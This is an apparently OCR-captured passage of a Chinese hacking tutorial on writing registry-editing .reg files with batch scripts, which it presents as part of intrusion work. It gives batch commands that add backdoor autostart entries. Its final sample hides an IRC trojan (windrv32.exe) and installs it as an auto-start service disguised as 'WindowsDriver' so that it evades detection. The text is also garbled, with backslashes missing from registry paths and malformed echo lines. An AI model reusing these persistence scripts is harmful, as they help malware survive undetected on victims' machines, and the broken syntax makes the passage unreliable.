 < 从文件中而不是从键盘中读入命令输入。
>& 将一个句柄的输出写入到另一个句柄的输入中。
<& 从一个句柄读取输入并将其写入到另一个句柄输出中。
这些并不常用，也就不多做介绍。
## 五.如何用批处理文件来操作注册表
在入侵过程中经常回操作注册表的特定的键值来实现一定的目的，例如:为了达到隐藏后门、木马程序而删除Run下残余的键值。或者创建一个服务用以加载后 门。当然我们也会修改注册表来加固系统或者改变系统的某个属性，这些都需要我们对注册表操作有一定的了解。下面我们就先学习一下如何使用.REG文件来操 作注册表.(我们可以用批处理来生成一个REG文件)
关于注册表的操作，常见的是创建、修改、删除。
1.创建
创建分为两种，一种是创建子项(Subkey)
我们创建一个文件，内容如下：
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINESOFTWAREMicrosofthacker]
然后执行该脚本，你就已经在HKEY_LOCAL_MACHINESOFTWAREMicrosoft下创建了一个名字为“hacker”的子项。
另一种是创建一个项目名称
那这种文件格式就是典型的文件格式，和你从注册表中导出的文件格式一致，内容如下：
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun]
"Invader"="Ex4rch"
"Door"=C:/WINNT/system32/door.exe
"Autodos"=dword:02
这样就在[HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun]下
新建了:Invader、door、about这三个项目
Invader的类型是“String Value”
door的类型是“REG SZ Value”
Autodos的类型是“DWORD Value”
2.修改
修改相对来说比较简单，只要把你需要修改的项目导出，然后用记事本进行修改，然后导入（regedit /s）即可。
3.删除
我们首先来说说删除一个项目名称，我们创建一个如下的文件：
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun]
"Ex4rch"=-
执行该脚本，[HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun]下的"Ex4rch"就被删除了；
我们再看看删除一个子项，我们创建一个如下的脚本：
Windows Registry Editor Version 5.00
[-HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun]
执行该脚本，[HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun]就已经被删除了。
相信看到这里，.reg文件你基本已经掌握了。那么现在的目标就是用批处理来创建特定内容的.reg文件了，记得我们前面说道的利用重定向符号可以很容易地创建特定类型的文件。
samlpe1:如上面的那个例子,如想生成如下注册表文件
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun]
"Invader"="Ex4rch"
"door"=hex:255
"Autodos"=dword:000000128
只需要这样：
@echo Windows Registry Editor Version 5.00>>Sample.reg
@echo [HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun]>Sample.reg
@echo "Invader"="Ex4rch">>Sample.reg
@echo "door"=5>>C:/WINNT/system32/door.exe>>Sample.reg
@echo "Autodos"=dword:02>>Sample.reg
samlpe2:
我们现在在使用一些比较老的木马时,可能会在注册表的 [HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun(Runonce、 Runservices、Runexec)]下生成一个键值用来实现木马的自启动.但是这样很容易暴露木马程序的路径,从而导致木马被查杀,相对地若是将 木马程序注册为系统服务则相对安全一些.下面以配置好地IRC木马DSNX为例(名为windrv32.exe)
@start windrv32.exe
@attrib +h +r windrv32.exe
@echo [HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun] >>patch.dll
@echo "windsnx "=- >>patch.dll
@sc.exe create Windriversrv type= kernel start= auto displayname= WindowsDriver binpath= c:winntsystem32windrv32.exe
@regedit /s patch.dll